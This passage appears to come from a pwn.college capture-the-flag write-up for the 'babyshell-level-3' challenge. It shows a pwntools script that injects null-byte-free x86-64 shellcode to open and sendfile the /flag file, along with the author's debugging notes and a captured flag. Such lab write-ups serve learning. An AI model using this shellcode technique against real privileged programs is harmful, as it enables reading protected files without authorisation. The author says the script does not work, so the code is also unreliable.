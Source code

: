 **P.S** important note I am not sure why this script is not working albeit it does pass by no null bytes test case and upon doing an strace we see the syscall is being called correctly but lack of permissions After trying to look for solns on discord I can find none.

trying to run this through strace we see the payload is correct 

![WhatsApp Image 2025-01-07 at 01 48 23_8a0da48f](https://github.com/user-attachments/assets/ccb2b258-320b-453c-ac89-0107caba7649)

But what I think is the fact that some of the rax, rdi values will have dumps hence why before using them we need to wipe them setting them to 0 before setitng the lower bytes

```python
from pwn import *

p = process("/challenge/babyshell-level-3")
context.arch = 'amd64'

shellcode = asm(f'''
mov rbx, 0x101010101010101
push rbx
mov rbx, 0x101010101010101 ^ 0x00000067616c662f
xor [rsp], rbx

mov al, 2
xor rsi, rsi
mov rdi, rsp
syscall

mov dil, 1
mov rsi, rax            
xor rdx, rdx                  
mov r10b, 232           
mov al, 40               
syscall                     

xor rax, rax
mov al, 60
xor rdi, rdi
mov dil, 1
syscall
''')


p.sendline(shellcode)
p.interactive()
```

### Flag

> pwn.college{UiWTsMYhvLN_BFxzmNufd0WZv_e.0VOxIDL4czN0czW}

---

## level4
